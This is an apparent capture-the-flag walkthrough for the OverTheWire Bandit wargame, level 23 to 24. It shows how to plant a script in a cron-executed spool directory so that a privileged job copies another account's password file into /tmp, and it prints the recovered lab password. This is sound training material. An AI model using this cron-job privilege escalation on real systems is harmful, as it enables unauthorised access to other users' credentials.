 ## Bandit Level 23 → Level 24
Making our own shell script! The cronjob runs every shell script in a folder at regular intervals.
- ssh bandit23@bandit.labs.overthewire.org -p 2220
- cat /etc/cron.d/cronjob_bandit24
- cat /usr/bin/cronjob_bandit24.sh
    - This cronjob appears to go through all the crons in /var/spool/bandit24 directory and execute them before deleting them every 60 seconds
- cd /var/spool/bandit24
- mkdir /tmp/bandit23
- chmod 777 /tmp/bandit23
- nano bandit23.sh
    - #!/bin/bash cat /etc/bandit_pass/bandit24 > /tmp/bandit23/pass.txt
- chmod 777 bandit23.sh
- /usr/bin/cronjob_bandit24.sh
- cat /tmp/bandit23/pass.txt
    - UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
